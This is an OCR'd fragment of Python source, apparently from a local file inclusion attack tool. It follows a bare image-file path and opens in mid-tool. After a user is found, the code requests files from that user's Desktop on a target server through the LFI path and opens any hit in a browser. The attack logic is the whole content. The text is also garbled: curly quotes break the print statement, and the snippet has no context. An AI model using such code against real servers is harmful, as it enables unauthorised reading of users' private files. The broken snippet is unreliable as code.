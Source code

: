 ```python
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```


